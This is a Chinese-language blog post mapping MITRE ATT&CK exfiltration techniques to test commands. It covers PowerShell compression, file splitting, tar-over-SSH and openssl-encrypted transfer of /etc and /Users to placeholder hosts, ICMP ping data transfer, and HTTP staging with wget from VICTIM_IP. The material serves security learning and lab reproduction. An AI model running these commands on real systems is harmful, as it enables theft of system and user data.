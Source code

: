```yaml
---
layout: post
title: 跟着ATT&CK学安全之exfiltration
excerpt: "跟着ATT&CK学安全之exfiltration"
categories: [ATT&CK]
comments: true
---
```

### T1002 - Data Compressed
###### 测试1 Compress Data for Exfiltration With PowerShell
```
dir #{input_file} -Recurse | Compress-Archive -DestinationPath #{output_file}
```
clean up
```
Remove-Item -path #{output_file}
```
其他的不列举了,都是一些简单的压缩命令,没有技术含量

win10成功复现
### T1022 - Data Encrypted
暂时不列举,就是一些带密码的压缩命令
### T1030 - Data Transfer Size Limits
将文件分割,绕过大小限制
```bash
cd /tmp/
dd if=/dev/urandom of=/tmp/victim-whole-file bs=25M count=1
split -b 5000000 /tmp/victim-whole-file
ls -l
```
win10成功复现
### T1048 - Exfiltration Over Alternative Protocol
###### 测试1 Exfiltration Over Alternative Protocol - SSH
```
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```
或者
```
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```
应该可以
###### 测试2 通过ICMP协议传送数据
`$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path C:\Windows\System32\notepad.exe -Encoding Byte -ReadCount 1024) { $ping.Send("127.0.0.1", 1500, $Data) }`
win10成功复现
###### 测试3 通过Http协议传送数据
搭建http服务
```bash
cd /tmp/victim-staging-area && python -m SimpleHTTPServer 1337
```
下载
```bash
wget http://VICTIM_IP:1337/victim-file.txt
```
win10成功复现